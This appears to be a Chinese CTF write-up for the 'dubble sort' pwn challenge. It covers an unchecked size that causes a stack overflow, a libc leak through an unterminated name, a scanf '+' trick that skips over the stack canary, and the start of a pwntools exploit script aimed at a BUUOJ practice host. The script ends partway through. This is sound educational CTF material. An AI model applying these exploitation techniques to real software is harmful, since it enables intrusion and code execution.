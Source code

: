 # dubble sort + hacknote

## dubble sort

#### 漏洞分析

漏洞在于程序没有对输入的size进行限制导致size可以很大，从而导致数据栈溢出。

```c
 __printf_chk(1, "Hello %s,How many numbers do you what to sort :");
  __isoc99_scanf("%u", &size);//没有检查size
  buf_size = size;
  if ( size )
  {
    v4 = buf;
    for ( i = 0; i < size; ++i )
    {
      __printf_chk(1, "Enter the %d number : ");
      fflush(stdout);
      __isoc99_scanf("%u", v4);
      buf_size = size;
      v4 += 4;
    }
  }
```

#### 漏洞利用

这个漏洞的利用，首先通过name没有\x00截断进行libc地址泄露之后，溢出ROP可以直接得到shell。

```
__printf_chk(1, "What your name :");
  read(0, name, 0x40u);//没有\x00
  __printf_chk(1, "Hello %s,How many numbers do you what to sort :");
```

但是题目有很多陷阱。

首先，题目开启了canary所以需要泄露canary但是如果选择泄露libc就无法泄露canary。这里的技巧是在使用scanf读入整数时，输入"+"可以跳过一次输入，返回值为0。这样就可以跳过canary而不进行覆盖。

第二点，题目的sort函数会对buffer里的数据进行排序，所以输入的时候一定要让数值从小到大进行排列，否则可能会打乱原数据的顺序无法ROP。

#### EXP：

```python
#coding=utf-8
from pwn import *
local = 0
exec_file="./dubblesort"
context.binary=exec_file
context.terminal=["tmux","splitw","-h"]
elf=ELF(exec_file,checksec = True)
argv=[]
if local :
    a=process(exec_file)
    if context.arch == "i386" :
        libc=ELF("/lib/i386-linux-gnu/libc.so.6",checksec = False)
    elif context.arch == "amd64" :
        libc=ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec = False) 
else:
    a=remote("node3.buuoj.cn",28073)
    libc=ELF("./libc.so.6")
def get_base(a):
    text_base = a.libs()[a._cwd+a.argv[0].strip('.')]
    for key in a.libs():
```